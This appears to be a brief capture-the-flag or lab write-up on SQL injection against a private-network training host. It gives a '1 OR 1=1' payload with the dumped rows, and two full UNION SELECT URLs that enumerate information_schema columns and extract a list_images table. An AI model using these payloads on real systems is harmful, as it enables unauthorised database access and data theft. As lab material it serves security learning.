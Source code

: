 # SQL Injection

```
1 OR 1=1
```
```
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

list Columns : 
`http://192.168.56.102/\?page\=searchimg\&id\=1+UNION+ALL+SELECT+column_name%2Ctable_name+from+information_schema.columns\&Submit\=Submit\#`

display comment : 
`http://192.168.56.102/?page=searchimg&id=1+UNION+SELECT+concat%28id%2Cchar%2858%29%2Curl%2Cchar%2858%29%2Ctitle%2Cchar%2858%29%2Ccomment%2Cchar%2858%29%29%2C2+FROM+list_images&Submit=Submit#`

